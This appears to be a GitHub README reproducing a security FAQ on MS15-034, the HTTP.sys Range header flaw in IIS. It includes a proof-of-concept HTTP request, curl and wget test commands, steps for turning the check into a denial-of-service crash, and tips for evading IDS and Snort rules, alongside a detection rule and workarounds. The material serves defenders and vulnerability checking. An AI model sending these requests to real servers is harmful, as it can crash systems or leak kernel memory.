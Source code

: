 IIS-Vulnerability_MS015
MS15-034: Vulnerability in HTTP.sys could allow remote code execution: April 14, 2015
Summary
This security update resolves a vulnerability in Microsoft Windows. The vulnerability could allow remote code execution if an attacker sends a specially crafted HTTP request to an affected Windows system. The security update addresses the vulnerability by modifying how the Windows HTTP stack handles requests.
```bash
GET /%7Bwelcome.png HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: [server-ip]
Connection: Keep-Alive
Range: bytes=18-18446744073709551615
```
===========================

FAQ

1 - Which Versions of Windows Are Vulnerable?
Windows 7, Windows Server 2008 R2, Windows 8, Windows Server 2012, Windows 8.1, and Windows Server 2012 R2. HTTP.sys is used by any version of IIS running on one of these operating systems. HTTP.sys was introduced with IIS 6.

2 - Will an IPS protect me?
Yes. If you have the right rules installed. For example, here is a simple rule for Snort:

alert tcp $EXTERNAL_NET any -> $HOME_NET 80 (msg: " MS15-034 Range Header HTTP.sys Exploit"; content: "|0d 0a|Range: bytes="; nocase; content: "-"; within: 20 ; byte_test: 10,>,1000000000,0,relative,string,dec ; sid: 1001239;)

(byte_test is limited to 10 bytes, so I just check if the first 10 bytes are larger then 1000000000)

Watch out, there are some tricks to bypass simple rules, like adding whitespace to the Range: header's value. More info here.

3 - Will the exploit work over SSL?
Yes. Which may be used to bypass your IDS or other network protections

4 - Have you seen active exploits "in the wild"?
Not yet. We have seen working DoS exploits, but have not detected them in our honeypots. Erratasec conducted a (partial) scan of the Internet using a non-DoS exploit with the intend to enumerate vulnerable systems.

5 - How do I know if I am vulnerable?
Send the following request to your IIS server:

GET / HTTP/1.1 Host: MS15034 Range: bytes=0-18446744073709551615 If the server responds with "Requested Header Range Not Satisfiable", then you may be vulnerable.

Test Scripts:

(powershell removed as it doesn't support 64 bit intergers... worked without error for me, but something else may have been wrong with it)

curl -v [ipaddress]/ -H "Host: test" -H "Range: bytes=0-18446744073709551615"

wget -O /dev/null --header="Range: 0-18446744073709551615" http://[ip address]/

6 - Can this vulnerability be exploited to do more then a DoS?
In it's advisory, Microsoft considered the vulnerability as a remote code execution vulnerability. But at this point, no exploit has been made public that executed code. Only DoS exploits are available. There also appears to be an information disclosure vulnerability. If the lower end of the range is one byte less then the size of the retrieved file, kernel memory is appended to the output before the system reboots. In my own testing, I was not able to achieve consistent information leakage. Most of the time, the server just crashes.

[Turns out, the file does not have to be > 4GB. Tried it with a short file and it worked. The >4GB information came from a bad interpretation of mine of the chinese article in the "Resources" section]

7 - How to I launch the DoS exploit?
In the example PoC above, change the "0-" to "20-". (has to be smaller then the size of the file retrieved, but larger then 0)

8 - What is special about the large number in the PoC exploit?

It is 2^64-1. The largest 64 bit number (hex: 0xFFFFFFFFFFFFFFFF)

9 - Any Other Workarounds?
In IIS 7, you can disable kernel caching.

10 - Is only IIS vulnerable? Or are other components affected as well?
Potentially, anything using HTTP.sys and kernel caching is vulnerable. HTTP.sys is the Windows library used to parse HTTP requests. However, IIS is the most common program exposing HTTP.sys. You may find potentially vulnerable components by typing: netsh http show servicestate (thx to @Gmanfunky)

11 - Will IIS Request Filtering Protect Me?
No. IIS Request Filtering happens after the Range header is parsed.

References:

https://ma.ttias.be/remote-code-execution-via-http-request-in-iis-on-windows/ https://technet.microsoft.com/library/security/MS15-034 https://support.microsoft.com/en-us/kb/3042553 http://blogs.360.cn/blog/cve_2015_6135_http_rce_analysis (Chinese)

Thanks to Threatstop for providing an IIS server for testing.
